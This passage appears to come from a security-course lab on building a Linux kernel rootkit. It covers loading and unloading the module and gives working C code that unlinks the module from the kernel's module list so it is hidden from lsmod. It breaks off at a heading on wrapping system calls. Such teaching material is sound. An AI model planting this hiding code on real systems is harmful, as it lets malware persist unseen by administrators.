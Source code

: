 Then simply run `make all`. A bunch of files should get generated.

To load your module:
```
sudo insmod rootkit.ko
```

To check that your module has loaded:
```
dmesg
lsmod | grep rootkit
```

To remove your module:
```
sudo rmmod rootkit.ko
```

To check that your module has been unloaded:
```
dmesg
lsmod | grep rootkit
```

We can hide our module, so an unsuspecting user won't know that we are there:
```C
#include <linux/list.h>

struct list_head *module_list;

void hide(void)
{
    module_list = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
}

void unhide(void)
{
    list_add(&THIS_MODULE->list, module_list);
}
```

**Question:** Where should you use those functions?
To verify it works, load your module and run the following commands:

```
dmesg
lsmod | grep rootkit
```

You should see the output of your module, but it should not be on the list!
If you don't use `unhide` the module cannot be uninstalled!
Think carefully about when/how `unhide` should be used.
You may need to purse further, in the lab to find a solution.
In the meantime, you can restart the VM if you want to get back to a state where
your module is not loaded.

## Step 2: Wrapping system calls
